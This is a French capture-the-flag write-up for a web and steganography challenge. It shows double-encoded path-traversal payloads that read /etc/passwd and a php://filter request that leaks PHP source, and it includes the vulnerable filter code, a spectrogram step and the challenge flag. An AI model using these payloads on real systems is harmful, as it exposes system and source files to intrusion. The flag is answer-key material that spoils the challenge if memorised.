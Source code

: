 # CTF Midnight Flag : INFEKTION

## Web / Stéganographie

### Challenge : To be private or not to be private 

***

L'énoncé du challenge nous donne le site suivant : `https://cloud.midnightflag.fr/index.php`

En manipulant l'URL, je m'aperçois rapidement qu'une faille LFI est exploitable.
Je commence donc à injecter un payload avec double encodage afin de récupérer le contenu du fichier **/etc/passwd** :
`https://cloud.midnightflag.fr/index.php?categorie=..%252f..%252f..%252fetc%252fpasswd`

J'ai bien le contenu du fichier en retour mais je ne vois aucun utilisateur ou service exploitable :

![cloud1](https://user-images.githubusercontent.com/49941629/165366730-29a98123-13f2-47a2-ad28-a2bf67c8165f.png)

Je décide donc de télécharger le contenu du fichier index.php grâce au wrapper PHP :
`https://cloud.midnightflag.fr/index.php?categorie=php:%252F%252Ffilter%252Fconvert.base64-encode%252Fresource=index.php`

Avec cette requête, je récupère le contenu du fichier index.php en base64 directement sur la page web.

Après décodage, je vois le code PHP suivant correspondant aux filtres LFI appliqués (bypass de la fonction via double encodage) :
```php
    <?php
    function lfi_filter($value)
    {
        $omit_words = array('..', '../', '/');
        rsort($omit_words);
        $new_string = str_replace($omit_words, '', $value);
        return $new_string;
    }
    
    if (isset($_GET["categorie"])) {
      $categorie = lfi_filter($_GET["categorie"]);
      include urldecode($categorie);
    }else {
      include 'home.php';
    }
    ?>
```
A partir de cet instant, je cherche un petit moment avant de poursuivre le challenge car le code PHP récupéré nous donne aucune information supplémentaire.
Le fuzzing n'étant pas autorisé sur ce challenge, il est venu le temps du **#guessing** !

En regardant le titre du challenge et en adéquation avec la structure du site, après plusieurs tentatives je tente de joindre la page private.php : `https://cloud.midnightflag.fr/index.php?categorie=private.php` et j'ai bien un retour !

Je récupère donc le code source de cette page avec le même payload que précédemment :
`https://cloud.midnightflag.fr/index.php?categorie=php:%252F%252Ffilter%252Fconvert.base64-encode%252Fresource=private.php`

J'obtiens le code source suivant avec un commentaire ASCII intéressant :
```html
<section>
      <td><img width="50%" class="center" src="categorie\private\Why-So-Sad-Funny-Clown-Face-Picture.jpg" alt="personal_attack.jpg"></td>
      <!--don't leak (\x70\x65\x72\x73\x6F\x6E\x61\x6C) -->
</section>
```

Après conversion, je récupère la valeur suivante : **personal**

Je suppose donc que le site possède une catégorie personal, je me rends donc sur l'URL `https://cloud.midnightflag.fr/index.php?categorie=personal.php` qui contient un enregistrement audio au format wav.

Après téléchargement de l'enregistrement audio, je l'ouvre avec le logiciel Audacity afin d'analyser le contenu.

L'audio généré par l'enregistrement me laisse penser qu'une information est présente dans le spectrogramme :

https://user-images.githubusercontent.com/49941629/165365721-bf3fb966-fcdc-4e0e-a0d3-49bad9cf47e8.mp4

Après inversion de la piste audio et analyse du spectre, je récupère l'information suivante :

![cloud2](https://user-images.githubusercontent.com/49941629/165366030-8d6061f3-34d3-4f9b-8bfd-6a262bef336e.png)

Flag : MCTF{H1d3_Y0uR_S3cRe7s}

Merci au créateur du challenge.
